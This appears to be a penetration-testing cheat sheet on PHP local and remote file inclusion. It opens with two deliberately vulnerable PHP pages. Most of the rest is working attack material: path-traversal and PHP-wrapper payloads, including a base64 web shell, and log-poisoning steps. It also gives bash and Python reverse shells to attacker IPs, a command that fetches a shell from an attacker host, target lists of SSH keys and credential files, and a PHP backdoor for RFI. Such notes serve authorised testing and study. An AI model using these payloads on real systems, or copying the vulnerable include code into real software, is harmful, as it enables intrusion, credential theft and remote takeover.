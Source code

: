 ## Local file inclusion

### PHP
##### Vulnerable code:
###### Standard vulnerable to everything:
```php
<?php                                                                                                                                                                                                                                          
include 'templates/header.php';                                                                                                                                                                                                                
?>                                                                                                                                                                                                                                             
<div class="container mt-4">                                                                                                                                                                                                                   
<?php                                                                                                                                                                                                                                          
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

if(isset($_GET['page'])){
        include($_GET['page']); # VULNERABLE (any payload injected will work)
}else{
        include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>
```
###### PHP with filter (/var/www/html):
```php
<?php
include 'templates/header.php';
?>
<div class="container mt-4">
<?php
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}else{
    include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>

```

#### Achieving LFI:
##### General payloads
```
- Standard:
/etc/passwd
../../../../../../../etc/passwd

- URL encodings
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

- "Filter and remove" bypass
....//....//....//....//....//....//....//....//etc/passwd

- Original path kept
/var/www/../../etc/passwd
/var/www/html/../../../etc/passwd

Note: extra output gets appended, use a nullbyte (%00) to immediately terminate the string. This might cause issues.
```

##### PHP wrappers
PHP wrappers have the same general functionality as normal LFI, but they can bypass some filters.
```
php://filter/string.rot13/resource=../../../../../etc/passwd
php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd                              // Use to read PHP files (resource=index.php)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt         // `cmd` argument inclusion, prints "Shell done!" if it works. "allow_url_inclue" needs to be enabled for it to work.
```


### Log poisoning (RCE)
##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`), see #

#### Linux
##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)
##### Target files: 
```
RCE:
/var/log/apache2/access.log
Payload:
	bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261%22 

Other potentially interesting files:
/proc/self/environ
/etc/passwd -->
	/home/USER_FOUND/.ssh/id_rsa
	/home/USER_FOUND/.bash_history
	/home/USER_FOUND/.bash_profile
	/home/USER_FOUND/.bashrc

```

#### Windows
##### Target files: 
```
C:\xampp\apache\logs\access.log
Payload:
	https://www.revshells.com/ (Powershell base64 - URL encoded)
```

#### General
Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
test=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F4444%200%3E%261%22 
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=bash -i >& /dev/tcp/10.8.1.167/4444 0>&1
	curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`

### RFI
For remote file inclusion, the goal is to load extra PHP from an outside source (the attacker) into the target webpage.
##### Note: make sure the file is hosted using `python3`, and not a host that will parse away the PHP.
##### Example
```php
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";                 # Will load the <pre> tag, making the target website's PHP parser load the command first
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```
##### Payload
```
?page=http://192.168.45.232/php_backdoor.php&cmd=id
```
